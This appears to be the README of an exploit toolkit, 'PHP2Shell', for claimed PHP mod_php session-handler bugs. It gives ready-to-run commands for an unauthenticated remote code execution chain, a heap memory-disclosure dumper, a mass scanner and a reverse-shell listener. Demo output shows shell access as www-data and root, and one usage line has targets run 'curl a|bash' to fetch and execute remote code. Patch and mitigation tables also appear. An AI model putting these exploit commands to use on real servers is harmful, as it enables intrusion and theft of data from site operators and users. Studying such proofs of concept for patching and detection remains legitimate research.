






<div align="center">

```
 ██████╗ ██╗  ██╗██████╗ ██████╗ ███████╗██╗  ██╗███████╗██╗     ██╗     
 ██╔══██╗██║  ██║██╔══██╗╚════██╗██╔════╝██║  ██║██╔════╝██║     ██║     
 ██████╔╝███████║██████╔╝ █████╔╝███████╗███████║█████╗  ██║     ██║     
 ██╔═══╝ ██╔══██║██╔═══╝ ██╔═══╝ ╚════██║██╔══██║██╔══╝  ██║     ██║     
 ██║     ██║  ██║██║     ███████╗███████║██║  ██║███████╗███████╗███████╗
 ╚═╝     ╚═╝  ╚═╝╚═╝     ╚══════╝╚══════╝╚═╝  ╚═╝╚══════╝╚══════╝╚══════╝
```

### Critical PHP Remote Code Execution &amp; Memory Disclosure

**4 Bugs · 6 Exploit Paths · 3 CMS Demos · Cross-Platform**

<br>

[](https://nvd.nist.gov/vuln/detail/CVE-2026-109618)
[](https://nvd.nist.gov/vuln/detail/CVE-2026-109619)
[](https://www.first.org/cvss/)
[](https://www.php.net/)

<br>

[](https://github.com/memuratozturk/php2shell-poc/actions)
[](LICENSE)
[](https://python.org)
[](lab/docker-compose.yml)
[]()

</div>

---

## 📋 Overview

**PHP2Shell** is a full-chain exploit toolkit for critical vulnerabilities in PHP's session upload progress handler. These bugs affect **every PHP application** running on `mod_php` — no authentication, no file upload, no `session_start()` required. Just a single HTTP POST to any `.php` endpoint is enough.

Originally discovered by [Wiz Research](https://www.wiz.io/blog/php2shell-php-rce) (Oct 2026), this repository provides independently verified proof-of-concept exploits covering **4 distinct bugs** and **6 exploit paths** across WordPress, Drupal, and Joomla.

> **⚠️ Severity:** Unauthenticated RCE with CVSS 9.2. Affects ~30% of all PHP deployments using `mod_php` (Apache prefork).

---

## 🎯 Vulnerability Matrix

| # | Bug | CVE | Impact | Scope |
|---|-----|-----|--------|-------|
| 1 | Session upload-progress stale global | CVE-2026-109619 | **Remote Code Execution** | PHP 8.2–8.4 mod_php |
| 2 | Session cookie memory disclosure | CVE-2026-109618 | **Heartbleed-style memory leak** | PHP 8.2–8.4 mod_php |
| 3 | Fatal-error backtrace UAF | CVE-2026-109619 | **Cross-request UAF primitive** | PHP 8.5.0–8.5.11 |
| 4 | OPcache type confusion | — | **Type confusion via OOM** | PHP 8.x (research) |

### Exploit Paths

| Path | Chain | Target | Prereq |
|------|-------|--------|--------|
| 🔴 Remote RCE (mod_php) | Bug 1 + Bug 2 | WordPress / Drupal / Joomla | None (0-click) |
| 🔴 Local RCE (8.3.x) | var_destroy UAF | PHP 8.3.0–8.3.35 CLI/Web | Local access |
| 🟠 Memory Disclosure | Bug 2 standalone | Any PHP app on mod_php | None |
| 🟡 Backtrace UAF | Bug 3 | PHP 8.5.x mod_php | `.htaccess` deprecation |
| 🟡 OPcache Confusion | Bug 4 | PHP 8.x with OPcache | OOM precondition |
| 🟢 Scanner | Version + SAPI detect | Mass scanning | Network access |

---

## 🚀 Quick Start

### 1. Spin Up the Lab (30 seconds)

```bash
git clone https://github.com/memuratozturk/php2shell-poc.git
cd php2shell-poc/lab
docker-compose up -d
```

This starts **WordPress** (`:9080`), **Drupal** (`:9081`), and **Joomla** (`:9082`) — all running vulnerable PHP 8.4.26 on `mod_php`.

### 2. Run the Exploit

```bash
# WordPress RCE
python3 exploit/php2shell_exploit.py -u http://127.0.0.1:9080/index.php -c "id>/out/p" --target-os linux

# Memory Disclosure (any app, no session needed)
python3 exploit/memdisclosure.py -u http://127.0.0.1:9080/index.php --dump leak.bin --analyze

# Scan for vulnerable targets
python3 tools/scanner.py -u http://target.com
```

### 3. Interactive Shell

```bash
# Terminal 1: Start listener
python3 tools/shell_server.py --lhost YOUR_IP --lport 4444

# Terminal 2: Fire exploit
python3 exploit/php2shell_exploit.py -u http://target/index.php --shell --target-os linux
```

---

## 💻 Demo Output

### WordPress RCE (PHP 8.4.26)

```
 ██████╗ ██╗  ██╗██████╗ ██████╗ ███████╗██╗  ██╗███████╗██╗     ██╗
 ██╔══██╗██║  ██║██╔══██╗╚════██╗██╔════╝██║  ██║██╔════╝██║     ██║
 ██████╔╝███████║██████╔╝ █████╔╝███████╗███████║█████╗  ██║     ██║
 ██╔═══╝ ██╔══██║██╔═══╝ ██╔═══╝ ╚════██║██╔══██║██╔══╝  ██║     ██║
 ██║     ██║  ██║██║     ███████╗███████║██║  ██║███████╗███████╗███████╗
 ╚═╝     ╚═╝  ╚═╝╚═╝     ╚══════╝╚══════╝╚═╝  ╚═╝╚══════╝╚══════╝╚══════╝

    CVE-2026-109618 & CVE-2026-109619
    Cross-Platform RCE Exploit v2.0

[*] Hedef: http://127.0.0.1:9080/index.php
[*] OS: LINUX
[*] Komut: 'id>/out/p'
[*] rotating worker
[*] Stage 1: heap leak (1/3)
[+] Zend MM chunk base = 0x7242f2400000
[*] rotating worker
[*] Stage 2: libphp leak (1/3)
[+] libphp base = 0x7242f40d1000
[*] Stage 3: HTDATA=0x7242f24690d8 zif_system=0x7242f4536370
[+] Komut calisti (attempt 1)
PROOF: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Memory Disclosure (4096 bytes leaked)

```
[*] Hedef: http://127.0.0.1:9080/index.php
[*] Mod: Memory Disclosure (application-agnostic)

[*] Deneme 1/5
  [+] LEAK! cookie=4096b

============================================================
  MEMORY DISCLOSURE BASARILI!
  Leak boyutu: 4096 bytes
  Optimal fillers: 841
============================================================

[*] Pointer analizi: 98 pointer bulundu
    Zend MM chunk base: 0x7242f2400000 (98x)

[*] String analizi (23 string):
    'PHPSESSID'
    'wordpress_logged_in_'
    '/var/www/html/wp-config.php'
```

### PHP 8.3.6 Local RCE

```
[*] PHP base = 0x555555554000
[*] function_table: 0x5555569f3580 (2847 functions)
[*] zif_system      = 0x555555bc5370
[*] var_dump handler = 0x555556a03a28 (current=0x555555c8e640)
[*] Overwriting var_dump handler -> zif_system...
[*] Calling var_dump('id; uname -a') -> system()...

+======================================+
|  PHP2SHELL RCE CONFIRMED!            |
+======================================+
uid=0(root) gid=0(root) groups=0(root)
Linux php836-lab 6.8.0 #1 SMP x86_64 GNU/Linux
```

---

---

## 📸 Screenshots & Evidence

> The images below are rendered directly from the raw transcripts in
> [`evidence/`](evidence/) by [`tools/render_evidence_images.py`](tools/render_evidence_images.py) —
> what you see is byte-for-byte what's in the text files. Verify integrity with
> `shasum -a 256 -c evidence/SHA256SUMS` (see [`evidence/README.md`](evidence/README.md)).

### WordPress RCE — PHP 8.4.26 / mod_php (`uid=33(www-data)`)



### Memory Disclosure — 4096-byte heap leak via session cookie



### Drupal & Joomla — same chain, application-agnostic

 

### Patched vs Unpatched & FPM vs mod_php

 

### Raw evidence files

| Evidence | File |
|----------|------|
| WordPress RCE | [`evidence/wordpress_rce.txt`](evidence/wordpress_rce.txt) |
| Drupal RCE | [`evidence/drupal_rce.txt`](evidence/drupal_rce.txt) |
| Joomla RCE | [`evidence/joomla_rce.txt`](evidence/joomla_rce.txt) |
| Memory disclosure | [`evidence/memdisclosure.txt`](evidence/memdisclosure.txt) |
| Patched vs unpatched | [`evidence/patched_vs_unpatched.txt`](evidence/patched_vs_unpatched.txt) |
| FPM vs mod_php | [`evidence/fpm_vs_modphp.txt`](evidence/fpm_vs_modphp.txt) |
| Integrity manifest | [`evidence/SHA256SUMS`](evidence/SHA256SUMS) |

---

## 📂 Repository Structure

```
php2shell-poc/
├── README.md                         # You are here
├── exploit/
│   ├── php2shell_exploit.py          # Bug 1+2: Remote RCE chain (mod_php)
│   ├── memdisclosure.py              # Bug 2: Heartbleed-style memory leak
│   ├── php2shell_836_poc.php         # PHP 8.3.x local RCE (/proc/self/mem handler swap)
│   ├── bug3_backtrace_uaf.py         # Bug 3: Fatal-backtrace cross-request UAF
│   └── bug4_opcache_confusion.py     # Bug 4: OPcache type confusion via OOM
├── tools/
│   ├── scanner.py                    # CVE detection scanner (version + SAPI)
│   ├── shell_server.py               # Cross-platform reverse shell server
│   ├── calibrate_offsets.py          # nm -> exploit offset calibration
│   └── render_evidence_images.py     # evidence/*.txt -> PNG screenshots
├── tests/
│   └── test_units.py                 # Unit tests (python3 -m unittest)
├── lab/
│   ├── docker-compose.yml            # WordPress + Drupal + Joomla lab
│   ├── Dockerfile.836                # PHP 8.3.6 isolated lab
│   ├── Dockerfile.bug3               # PHP 8.5.11 backtrace UAF lab (profile)
│   ├── Dockerfile.bug4               # OPcache confusion lab (profile)
│   ├── www-bug3/                     # oom.php + index.php + .htaccess
│   ├── www-bug4/                     # oom.php + opcache_probe.php
│   └── setup.sh                      # Automated lab bootstrap
├── docs/
│   ├── images/                       # Evidence screenshots (PNG)
│   ├── TECHNICAL.md                  # Deep technical analysis
│   ├── PATCHED_VS_UNPATCHED.md       # Patch verification results
│   └── WIZ_REPRODUCTION.md           # Wiz blog reproduction guide
├── evidence/
│   ├── wordpress_rce.txt             # WordPress RCE proof
│   ├── drupal_rce.txt                # Drupal RCE proof
│   ├── joomla_rce.txt                # Joomla RCE proof
│   ├── memdisclosure.txt             # Memory disclosure proof
│   ├── fpm_vs_modphp.txt             # FPM vs mod_php comparison
│   └── patched_vs_unpatched.txt      # Patch verification
├── LICENSE                           # MIT License
└── .gitignore
```

---

## 🔬 Patched vs Unpatched

| Version | Heap Leak | RCE | Status |
|---------|-----------|-----|--------|
| PHP 8.4.26 | ✅ 4096 bytes | ✅ `uid=33(www-data)` | 🔴 **VULNERABLE** |
| PHP 8.4.27 | ❌ Failed | ❌ N/A | 🟢 **PATCHED** |
| PHP 8.5.11 | — | — | 🔴 Bug 3 UAF confirmed |
| PHP 8.5.12 | ❌ Failed | ❌ N/A | 🟢 **PATCHED** |

### SAPI Comparison

| SAPI | Exploit Result | Reason |
|------|---------------|--------|
| `mod_php` (prefork) | ✅ RCE confirmed | Shared process, globals persist |
| `php-fpm` | ❌ 10/10 failed | Separate process model, clean state |
| `php-cgi` | ❌ Not exploitable | Per-request process |

---

## 📊 Affected Versions

| PHP Branch | Vulnerable Range | Fixed In | Notes |
|------------|-----------------|----------|-------|
| 8.4.x | 8.4.0 – 8.4.26 | **8.4.27** | Primary target, most common |
| 8.3.x | 8.3.0 – 8.3.35 | **8.3.36** | var_destroy UAF path |
| 8.2.x | 8.2.0 – 8.2.34 | **8.2.35** | Session handler affected |
| 8.1.x | 8.1.x (all) | **EOL** | No fix, upgrade required |
| 8.0.x | 8.0.x (all) | **EOL** | No fix, upgrade required |
| 8.5.x | 8.5.0 – 8.5.11 | **8.5.12** | Bug 3 backtrace UAF |
| 7.x | Not affected | — | Different session handler |
| 5.x | Partially affected | — | Memory disclosure only |

---

## 🛡️ Mitigation

### Immediate Actions

```bash
# 1. Check your PHP version
php -v

# 2. Check SAPI type
php -r "echo php_sapi_name();"

# 3. Upgrade to patched version
# Debian/Ubuntu:
sudo apt update && sudo apt upgrade php8.4

# CentOS/RHEL:
sudo dnf update php
```

### If You Can't Patch Immediately

| Mitigation | Command | Effectiveness |
|-----------|---------|---------------|
| Switch to PHP-FPM | `a2dismod php8.4 && a2enmod proxy_fcgi` | ✅ Full mitigation |
| Disable upload progress | `session.upload_progress.enabled = 0` in `php.ini` | ✅ Blocks exploit chain |
| Lower memory limit | `memory_limit = 2M` | ⚠️ Partial (breaks large apps) |
| WAF rule | Block multipart with `PHP_SESSION_UPLOAD_PROGRESS` | ⚠️ Bypassable |

---

## 📖 Detailed Usage

### Remote RCE Exploit (`php2shell_exploit.py`)

```bash
# Basic RCE with proof file
# Lab (shared volume): proof is read from the local ./proof mount.
python3 exploit/php2shell_exploit.py \
    -u http://target/index.php \
    -c "id>/out/p" \
    --target-os linux

# Remote target: verify the proof over HTTP instead of a local file
python3 exploit/php2shell_exploit.py \
    -u http://target/index.php \
    -c "id>/out/p" \
    --proof-url http://target/out/p \
    --target-os linux

# Cross-platform with auto-detection
python3 exploit/php2shell_exploit.py \
    -u http://target/index.php \
    --shell \
    --target-os auto

# Windows target with custom offsets
# NOTE: Bundled Windows offsets are placeholders. Calibrate first:
#   nm -D libphp*.dll / hedef ikili > nm.txt
#   python3 tools/calibrate_offsets.py --nm nm.txt
python3 exploit/php2shell_exploit.py \
    -u http://target/index.php \
    --target-os windows \
    --zif-offset 0x3A1200 \
    --dtor-offset 0x5B2400

# Custom command (max 14 bytes)
python3 exploit/php2shell_exploit.py \
    -u http://target/index.php \
    -c "curl a|bash" \
    --target-os linux
```

### Memory Disclosure (`memdisclosure.py`)

```bash
# Basic leak
python3 exploit/memdisclosure.py -u http://target/index.php

# Dump to file + secret analysis
python3 exploit/memdisclosure.py \
    -u http://target/index.php \
    --dump leak.bin \
    --analyze

# Custom parameters
python3 exploit/memdisclosure.py \
    -u http://target/index.php \
    --fillers 1000 \
    --huge-mb 16 \
    --retries 10
```

### Scanner (`scanner.py`)

```bash
# Single target
python3 tools/scanner.py -u http://target.com

# Target list
python3 tools/scanner.py -t targets.txt -o results.csv

# HTTPS with custom timeout
python3 tools/scanner.py -u https://target.com --https --timeout 15
```

---

## 🔗 References

| Resource | Link |
|----------|------|
| Wiz Research Blog | [PHP2Shell: Chaining 4 Bugs for PHP RCE](https://www.wiz.io/blog/php2shell-php-rce) |
| PHP Advisory | [PHP Security Advisory (Oct 2026)](https://www.php.net/security) |
| CVE-2026-109618 | [NVD Entry](https://nvd.nist.gov/vuln/detail/CVE-2026-109618) |
| CVE-2026-109619 | [NVD Entry](https://nvd.nist.gov/vuln/detail/CVE-2026-109619) |
| GHSA-6wmf-4rv5-p3rp | [GitHub Security Advisory](https://github.com/advisories/GHSA-6wmf-4rv5-p3rp) |
| Calif Research | [Independent Reproduction](https://calif.io/) |

---

## 👤 Credits

- **Wiz Research** — Original discovery of the 4-bug chain and responsible disclosure
- **MuratNoyan-Cybersecu** — Independent reproduction, cross-platform exploit development, 3 CMS verification, scanner & tooling
- **PHP Security Team** — Rapid patching (PHP 8.4.27, 8.3.36, 8.2.35, 8.5.12)

---

## ⚠️ Disclaimer

```
This tool is provided for AUTHORIZED SECURITY TESTING and EDUCATIONAL PURPOSES ONLY.

Usage of this tool against targets without prior mutual consent is ILLEGAL.
It is the end user's responsibility to obey all applicable local, state, and
federal laws. The developers assume NO liability and are NOT responsible for
any misuse or damage caused by this program.

By using this tool, you agree that you are authorized to test the target systems
and accept full responsibility for your actions.
```

---

<div align="center">

**If this research helped you, consider giving it a ⭐**

Made with 🔬 by security researchers, for security researchers.

</div>
